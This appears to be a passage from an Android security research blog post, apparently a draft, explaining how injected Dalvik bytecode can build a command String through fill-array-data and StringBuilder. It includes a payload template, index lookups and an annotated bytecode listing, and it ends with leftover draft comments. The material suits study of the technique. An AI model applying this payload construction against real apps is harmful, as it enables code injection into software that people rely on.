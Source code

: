 As discussed in a previous blog post, the instruction `fill-array-data` can be used to fill an array with data directly located inside the bytecode. So, long story short, an arbitrary `char[]` can be constructed using `fill-array-data`. For this to work, an attacker needs to know the type index of a `char[]`. Luckily, the `char[]` type is used frequently, so it most likely resides in any `.dex` we encounter. For a start the payload looks like below:
```
new-array v0, <length>, char[]
fill-array-data v0, +<byte offset//2>
...
[fill-array-data-payload]
ident=0x0300
element_width=0x2
size=len(command)
data=[ command[0], ..., command[-1] ]
```

From now on, assume an attacker has a `char[]` instance describing a command, like `"log Hello"`. The next step is to construct a `String` from a `char[]`. On Android, `StringBuilder` is the type of choice. Again, it is used so frequently that every `.dex` file is expected to contain the corresponding type. The main challenge is whether `StringBuilder::append(char[])` exists. In case of the vulnerable app it does, but it may not be the case for another app. If there is no way to construct a `String` from bytecode, an attacker can also *inject* a fake `String` object (see next post regarding bytecode reuse). Continuing with the `StringBuilder`, consider the following analysis:
```bash
classes.dex> list types --regex "StringBuilder"
    [Index = 0x150f]: StringBuilder
classes.dex> list methods --regex "StringBuilder::append"
    [Index = 0xa750]: StringBuilder StringBuilder::append([C)
classes.dex> list methods --regex "StringBuilder::<init>"
    [Index = 0xa741]: void StringBuilder::<init>()
classes.dex> list methods --regex "StringBuilder::toString"
    [Index = 0xa75d]: String StringBuilder::toString()
```

As the name suggests, `StringBuilder::<init>()` is the constructur of `StringBuilder` that does not take any parameters. In Java, invoking this constructor is done via `new StringBuilder()`. Overall, the following Java snippet describes what we try to do directly in bytecode:
```java
char[] c = new char[] {'l', 'o', 'g', ' ', 'H', 'e', 'l', 'l', 'o'};
StringBuilder b = new StringBuilder();
b.append(c);
String command = b.toString();
```

Putting together all the pieces and equipped with the [bytecode documentation](https://source.android.com/docs/core/runtime/dalvik-bytecode#instructions) and a sample app for payload creation, the following bytecode can be constructed:
```
0000: CONST_16 v0, #+<len(command)>
0004: NEW_ARRAY v0, v0, TYPE:char[]
0008: FILL_ARRAY_DATA v0, +<offset to command data // 2>
000e: NEW_INSTANCE v1, TYPE:StringBuilder
0012: INVOKE_DIRECT {v1}, METHOD:StringBuilder-><init>()
0018: INVOKE_VIRTUAL {v1, v0}, METHOD:StringBuilder->append(char[])
001e: INVOKE_VIRTUAL {v1}, METHOD:StringBuilder->toString()
0024: MOVE_RESULT_OBJECT v2
...
offset command data: [fill-array-data-payload]
```


[comment]: <> (Arms race)
[comment]: <> (Parallels to native code)
[comment]: <> (Motivation)
[comment]: <> (Missing distinction between data and code)
[comment]: <> (Bytecode injection is a real, new thing)
[comment]: <> (ASLR?)
[comment]: <> (Gloss over target)
[Offset = 0x0]: classes.dex
[Offset = 0x0]: classes.dex